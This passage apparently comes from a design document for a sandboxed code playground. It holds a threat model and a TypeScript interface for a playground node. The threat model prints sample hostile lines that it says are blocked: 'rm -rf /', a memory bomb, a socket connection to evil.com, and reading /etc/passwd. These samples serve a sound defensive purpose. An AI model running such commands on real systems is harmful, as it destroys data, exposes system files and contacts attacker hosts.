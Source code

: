 
### Threat Model

**What We Protect Against:**

1. **Code Injection**
   ```python
   # Blocked
   eval(user_input)
   exec(malicious_code)
   os.system('rm -rf /')
   ```

2. **Resource Exhaustion**
   ```python
   # Auto-killed after 30s
   while True:
       data.append([0] * 1000000)  # Memory bomb
   ```

3. **Network Attacks**
   ```python
   # Blocked
   import socket
   s = socket.socket()
   s.connect(('evil.com', 1234))
   ```

4. **File System Escape**
   ```python
   # Blocked
   open('/etc/passwd', 'r')
   os.chdir('../../..')
   ```

---

## 🎨 User Interface

### Code Playground Node Component

```tsx
interface CodePlaygroundNode {
  id: string;
  type: 'codePlayground';
  data: {
    label: string;
    language: 'python' | 'javascript' | 'typescript' | 'bash';
    code: string;
    packages: string[];  // Dependencies
    env: Record<string, string>;  // Environment variables
    timeout: number;     // Execution timeout (seconds)
    memoryLimit: number; // MB
  };
}
```
